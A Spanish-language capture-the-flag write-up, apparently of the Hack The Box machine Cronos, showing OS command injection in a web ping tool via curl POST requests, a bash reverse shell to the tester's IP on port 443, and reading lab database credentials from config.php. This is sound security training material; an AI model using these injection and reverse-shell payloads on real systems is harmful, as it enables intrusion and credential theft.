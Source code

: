 
-----------------------------
# Part 3: OS Command Injection

La web nos permite hacer ping a un IP.  
![cronos4](https://user-images.githubusercontent.com/96772264/209542048-c144dd56-0506-421a-a916-82dd03ef93fa.PNG)

```
/POST http://admin.cronos.htb/welcome.php 
Cookie PHPSESSID=dq20k35860jpm19rv1jtl2j353 
command=ping+-c+1&host=10.10.14.16
```
```console
└─$ curl -s -X POST -H "Cookie: PHPSESSID=dq20k35860jpm19rv1jtl2j353" \
-d "command=ping -c 1&host=10.10.14.16"  http://admin.cronos.htb/welcome.php | html2text
****** Net Tool v0.1 ******
[One of: traceroute/ping] [8.8.8.8             ] [Execute!]
PING 10.10.14.16 (10.10.14.16) 56(84) bytes of data.
64 bytes from 10.10.14.16: icmp_seq=1 ttl=63 time=45.4 ms

--- 10.10.14.16 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 45.486/45.486/45.486/0.000 ms
Sign_Out

└─$ sudo tcpdump -i tun0 icmp -n
11:08:20.328767 IP 10.10.10.13 > 10.10.14.16: ICMP echo request, id 1434, seq 1, length 64
11:08:20.328816 IP 10.10.14.16 > 10.10.10.13: ICMP echo reply, id 1434, seq 1, length 64
```

Hace un comando de bash "ping" El problema cuando una web le manda un comando al sistema esque podemos jugar con eso, como el navegdor está limitado,
herramientas como curl permiten mas flexibilidad para meter cosas.  

En este caso concatenamos un segundo comando: ```-d "command=ping -c 1; curl http://10.10.14.16&host=10.10.14.16"```  
SI levantamos un servidor con el python ```sudo python3 -m http.server 80``` recibimos una petición.  

```console
└─$ curl -s -X POST -H "Cookie: PHPSESSID=dq20k35860jpm19rv1jtl2j353" \
-d "command=ping -c 1; bash -c 'bash -i >%26 /dev/tcp/10.10.14.16/443 0>%261' &host=10.10.14.16"  http://admin.cronos.htb/welcome.php | html2text
```
-----------------------------
# Part 4: En el sistema

Ya con eso entramos en el sistema. Antes de enumerar está bien mirar por las carpetas actuales:
```console
www-data@cronos:/var/www/admin$ ls
config.php  index.php  logout.php  session.php	welcome.php
www-data@cronos:/var/www/admin$ cat config.php
<?php
   define('DB_SERVER', 'localhost');
   define('DB_USERNAME', 'admin');
   define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
   define('DB_DATABASE', 'admin');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
?>

www-data@cronos:/var/www/admin$ mysql -uadmin -pkEjdbRigfBHUREiNSDs
mysql> show databases; # admin e information_schema
```